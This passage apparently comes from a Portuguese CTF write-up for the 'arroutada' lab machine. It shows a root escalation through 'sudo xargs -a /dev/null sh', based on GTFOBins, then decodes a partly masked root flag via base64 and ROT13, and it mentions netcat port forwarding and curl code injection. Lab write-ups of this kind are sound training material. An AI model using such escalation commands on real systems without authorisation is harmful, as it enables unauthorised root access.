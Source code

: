 Escalar privilégio com xargs via sudo <https://gtfobins.github.io/gtfobins/xargs/#sudo>

```shell
drito@arroutada:~$ sudo xargs -a /dev/null sh
sudo xargs -a /dev/null sh
# whoami
whoami
root
# 
```
{: .nolineno }
### root flag
![alt text](/assets/img/arroutada/11.png)  

A Flag ta codificada em base64 > ROT13

R3VuYXhmR2ccccccccFOeXlVbnB4WmxJWg== (BASE64)  
`echo "R3VuYXhmR2ccccccccFOeXlVbnB4WmxJWg==" | base64 -d`  
GunaxfGbFzccccccyUnpxZlIZ (ROT13)  
`echo "GunaxfGbFzccccccyUnpxZlIZ" | tr 'A-Za-z' 'N-ZA-Mn-za-m'`  

ThanksToXXXXXXXXXckMyVM (Text)  
  

**Conhecimentos adquiridos:**  
- port forward com netcat
- injetar código com curl nessa vulnerabilidade
